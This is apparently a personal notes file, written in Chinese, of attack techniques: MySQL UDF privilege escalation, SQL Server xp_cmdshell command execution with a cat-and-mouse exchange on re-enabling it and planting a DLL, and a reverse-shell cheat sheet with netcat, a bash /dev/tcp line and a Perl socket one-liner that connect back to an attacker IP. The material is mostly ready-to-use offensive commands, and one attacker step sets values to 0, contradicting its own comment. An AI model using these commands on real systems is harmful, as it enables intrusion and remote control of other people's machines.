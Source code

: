 # Notes
## SQL Injection
### UDF提權
1. MySQL >= 5.1, 上傳udf.dll到 MySQL安裝路徑下的 \lib\plugin。   
MySQL < 5.1, udf.dll在Windows Server 2003的C:\Windows\system32，如果是Windows Server 2000則是在 C:\Winnt\system32，也可以寫udf.dll的十六進位。(如Linux則是udf.so)
2. 自定義函數
```
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; //import udf function
```
3. 
```
SELECT sys_eval('whoami');
```

### xp_cmdshell
1.  SQL Server :
```
exec xp_cmdshell 'ipconfig';
```

2. xp_cmdshell的對抗 :
```
//防守方 : 關閉xp_cmdshell
EXEC master.sys.sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

//攻撃方 : 重開xp_cmdshell
EXEC master.sys.sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

//防守方 : 如果xp_cmdshell可以這樣被重關，那就直接連同恢復的高級選項也關了吧
EXEC master.sys.sp_configure 'xp_cmdshell', 0; //Disable xp_cmdshell
RECONFIGURE;
EXEC master.sys.sp_configure 'show advanced options', 0; //Disable advanced options;
RECONFIGURE;

//攻撃方 : 先通過執行SQL語句打開advanced options，再打開xp_cmdshell;
EXEC master.sys.sp_configure 'show advanced options', 0;
RECONFIGURE;
EXEC master.sys.sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

//防守方 : 那就直接把相關的*.dll刪了
//攻撃方 : 直接上傳.dll到C:\inetpub\web\xplog70.dll, 再用xp_cmdshell
EXEC master.dbo.sp_addextendedproc 'xp_cmdshell', 'c:\inetpub\web\xplog70.dll';
RECONFIGURE; 

```

## Reverse Shell
### NetCat
```
//正向 Bash Shell
Victim :
nc -lvvp 5000 -e /bin/bash
Hacker :
nc victimIP 5000

//Reverse Bash Shell
Hacker : nc -lvvp 5000
Victim : nc -e /bin/bash hackerIP 5000

//Bash
bash -i >& /dev/tcp/hackerIPv4/Port 0>&1

//Perl
perl -e 'use Socket;$i="hackerIPv4";$p=5000;socket(S,PF_INET,SOCK_STREAM,get-protobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

//Python


```